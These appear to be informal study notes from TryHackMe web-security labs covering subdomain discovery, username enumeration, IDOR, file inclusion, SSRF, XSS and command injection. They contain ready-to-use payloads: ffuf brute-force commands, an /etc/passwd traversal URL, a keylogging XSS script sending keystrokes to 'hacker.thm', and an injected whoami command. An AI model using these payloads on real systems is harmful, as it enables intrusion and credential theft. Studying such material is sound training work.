 # finding subdomains and pages
created for domain
discover subdomains registerd with https://crt.sh and https://ui.ctsearch.entrust.com/ui/ctsearchui
site:www.tryhackme.com  site:*.tryhackme.com can be used to find subdomains
dnsrecon try from list of common subdomains for example api part of website
Sublist3r uses above method and common sites to find subdomains ./sublist3r.py -d acmeitsupport.thm

Virtual hosts
find non public subdomains use ffuf for example hidden admin page ffuf -u https://codingo.io/FUZZ -w ./wordlist.txt replace "FUZZ" with whats in wordlist

# Authentication Bypass
get website url and respone when username already exists
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists" 
when usernames thats registred is found try fuff with password

ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200

# autchenticate Bypass
cookies is encoded or hashed that can be decoded if you know the format


# idor
http://online-service.thm/profile?user_id=1000
when you change for example id 
if its encoded with base64 or other you can guees the format and encod new online. worth to post to crackstation
if you cant detect id. Creat new account and swap encoded if you see others content found idor

# File inclusion
lfi rfi directory traversal
unsantized user input 
bad input handlig and something like this is possible http://webapp.thm/get.php?file=../../../../etc/passwd
rfi
when allow_url_fopen is on with include()
enter url to force download from remote sderver http://webapp.thm/get.php?file=www.hackerserver.com
# ssrf
bypass input validation to give commands directly to locked api
common places to look
> when full url is used in adress bar or in code
> form value thats an url
> partial url thats connected to api
trial and error to find api and check its endpoints

# xss
get code to inject on others frontend javascript
kan keylog and send session with <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
> reflected xss
when user supplied javascript can be run example if url paramn is shown 1:1 in browser can change url param to <script src="url.js"></script>
> Stored XSS
How to test for Stored XSS:
stuff stored in comments and discriptons
You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to;
client sided validated input creates xss for example send code in form age field
> dom based xss
resarch more  https://www.w3.org/TR/REC-DOM-Level-1/introduction.html
https://owasp.org/www-community/attacks/DOM_Based_XSS
> blind xss
same as stored-xss but to unverifanble places like admin portals or support tickets. https://xsshunter.com/features is tool for it
> Command injection
when app pass data and make system calls with userinput as param.
to check if it works with ping and sleep or curl. or whoami if the application show responses
curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoam